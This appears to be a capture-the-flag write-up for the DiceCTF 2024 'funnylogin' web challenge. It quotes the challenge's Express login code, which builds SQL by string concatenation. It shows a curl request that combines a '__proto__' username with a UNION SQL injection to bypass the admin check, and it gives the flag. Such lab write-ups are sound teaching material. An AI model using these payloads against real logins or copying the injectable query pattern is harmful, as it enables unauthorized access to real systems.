 <title>dicectf 2024- web/funnylogin Challenge Writeup(first save it)</title>

<!DOCTYPE html>
<html>

<body>
    <h1>dicectf 2024- web/funnylogin Challenge Writeup(first save it)</h1>

    <h2>Challenge Description</h2>
    <p> NOTE: no bruteforcing is required for this challenge! please do not bruteforce the challenge.

funnylogin:https://funnylogin.mc.ax/
 https://static.dicega.ng/uploads/6beb05ec61c3436cf1e0d566f56e786e42bd8e2fe788404169cae34c368929e4/funnylogin.tar.gz
</p>

    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
 

# Solution
URL and source are passed.
When you access it, it looks like just a login form.
![site.png](site/site.png)
Looking at the source, the main parts of app.js are as follows.
<pre>
const users = [...Array(100_000)].map(() => ({ user: `user-${crypto.randomUUID()}`, pass: crypto.randomBytes(8).toString("hex" ) }));
db.exec(`INSERT INTO users (id, username, password) VALUES ${users.map((u,i) => `(${i}, '${u.user}', '${u. pass}')`).join(", ")}`);

const isAdmin = {};
const newAdmin = users[Math.floor(Math.random() * users.length)];
isAdmin[newAdmin.user] = true;

app.use(express.urlencoded({ extended: false }));
app.use(express.static("public"));

app.post("/api/login", (req, res) => {
     const { user, pass } = req.body;

     const query = `SELECT id FROM users WHERE username = '${user}' AND password = '${pass}';`;
     try {
         const id = db.prepare(query).get()?.id;
         if (!id) {
             return res.redirect("/?message=Incorrect username or password");
         }

         if (users[id] && isAdmin[user]) {
             return res.redirect("/?flag=" + encodeURIComponent(FLAG));
         }
         return res.redirect("/?message=This system is currently only available to admins...");
     }
     catch {
         return res.redirect("/?message=Nice try...");
     }
});
</pre>
There is SQLi which is trivial.
However, it seems that you can only become admin if <pre>users[id] && isAdmin[user]<pre> is true.
First, consider <pre>isAdmin[user]</pre>.
Only one of the users created in large quantities was randomly added as the `isAdmin` key, and we do not know who is the admin.
Here, you will notice that if you specify <pre>__proto__</pre> or <pre>toString</pre> to <pre>user</pre>, it will not become <pre>undefined</pre>.
For the remaining <pre>users[id]</pre>, just return an appropriate <pre>id</pre> using SQLi UNION.
Do as follows.
<pre>$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=user&pass=pass"</pre>
Found. Redirecting to /?message=Incorrect%20username%20or%20password
<pre>$ curl -X POST https://funnylogin.mc.ax/api/login -d "user=__proto__&pass=' UNION SELECT id FROM users WHERE id = 1; -- satoki"</pre>
Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
 
flag found


    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag"> dice{i_l0ve_java5cript!}
</p>

    <h2>Conclusion</h2>
    <p>this is a easy sql injection and web exploitaion challenge with work on javascript files</p>
</body>
</html>
